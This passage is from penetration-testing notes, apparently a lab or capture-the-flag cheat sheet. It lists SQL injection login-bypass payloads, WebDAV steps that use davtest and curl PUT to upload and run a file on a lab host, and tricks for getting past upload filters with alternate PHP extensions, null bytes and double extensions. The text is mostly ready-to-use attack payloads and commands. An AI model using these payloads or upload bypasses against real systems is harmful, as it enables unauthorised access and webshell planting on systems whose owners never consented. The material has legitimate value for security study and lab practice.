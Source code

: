         ```
        ' or 1=1;--
        ' or '1'='1
        ' or 1=1;#
        ') or ('x'='x
        ' or <column> like '%';--
        ' or 1=1 LIMIT 1;--
        admin' --
        admin' #
        admin'/*
        ' or 1=1--
        ' or 1=1#
        ' or 1=1/*
        ') or '1'='1--
        ') or ('1'='1—
        ' or 1/*
         */ =1 --
        admin' or 'a'='a
        '#
        ```
        
    - **File upload**
        
        ```bash
        #if NMAP show something like: Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND
        #we want to check if we can upload files
        davtest -url http://IP
        #if we see succedd we can use curl to upload:
        curl -X PUT http://10.10.10.15/df.txt -d @test.txt
        #and execute it:
        **curl http://10.10.10.15/df.txt**
        
        Blacklisting bypass
                bypassed by uploading an unpopular php extensions. such as: pht, phpt, phtml, php3, php4, php5, php6 
            Whitelisting bypass
                passed by uploading a file with some type of tricks, Like adding a null byte injection like ( shell.php%00.gif ). Or by using double extensions for the uploaded file like ( shell.jpg.php)
        ```
        
        Try alternative extensions for file uploads:
        
        ```
        Php > upload as pHp / phP / test.php.jpg /
        php - phtml, .php, .php3, .php4, .php5, and .inc
        asp - asp, .aspx
        perl - .pl, .pm, .cgi, .lib
        jsp - .jsp, .jspx, .jsw, .jsv, and .jspf
        Coldfusion - .cfm, .cfml, .cfc, .dbm
        ```
        
    - **If a File is Found**
        - `steghide` - check pictures for hidden files
            